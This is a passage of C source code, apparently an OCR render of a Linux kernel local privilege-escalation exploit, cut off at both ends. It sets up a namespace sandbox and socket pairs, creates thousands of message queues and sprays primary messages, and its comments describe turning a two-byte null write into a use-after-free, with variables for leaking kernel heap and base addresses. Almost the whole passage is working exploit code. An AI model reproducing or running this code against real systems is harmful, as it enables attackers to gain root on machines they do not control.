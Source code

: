 ```c
    return -1;
  }

  return 0;
}

int main(int argc, char *argv[]) {
  int s;
  int fd;
  int ss[NUM_SOCKETS][2];
  int pipefd[NUM_PIPEFDS][2];
  int msqid[NUM_MSQIDS];

  char primary_buf[PRIMARY_SIZE - SKB_SHARED_INFO_SIZE];
  char secondary_buf[SECONDARY_SIZE - SKB_SHARED_INFO_SIZE];

  struct msg_msg *msg;
  struct pipe_buf_operations *ops;
  struct pipe_buffer *buf;

  uint64_t pipe_buffer_ops = 0;
  uint64_t kheap_addr = 0, kbase_addr = 0;

  int fake_idx = -1, real_idx = -1;

  printf("[+] STAGE 0: Initialization\n");

  printf("[*] Setting up namespace sandbox...\n");
  if (setup_sandbox() < 0)
    goto err_no_rmid;

  printf("[*] Initializing sockets and message queues...\n");

  if ((s = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
    perror("[-] socket");
    goto err_no_rmid;
  }

  for (int i = 0; i < NUM_SOCKETS; i++) {
    if (socketpair(AF_UNIX, SOCK_STREAM, 0, ss[i]) < 0) {
      perror("[-] socketpair");
      goto err_no_rmid;
    }
  }
// 1. two bytes null write -> UAF
// 1-1. gain 4096 msg queue
  for (int i = 0; i < NUM_MSQIDS; i++) {
    if ((msqid[i] = msgget(IPC_PRIVATE, IPC_CREAT | 0666)) < 0) {
      perror("[-] msgget");
      goto err_no_rmid;
    }
  }

  printf("\n");
  printf("[+] STAGE 1: Memory corruption\n");
//1-2. create 4096 primary msg —— size=0x1000
  printf("[*] Spraying primary messages...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    memset(&msg_primary, 0, sizeof(msg_primary));
    *(int *)&msg_primary.mtext[0] = MSG_TAG;
    *(int *)&msg_primary.mtext[4] = i;
    if (write_msg(msqid[i], &msg_primary, sizeof(msg_primary), MTYPE_PRIMARY) <
        0)
```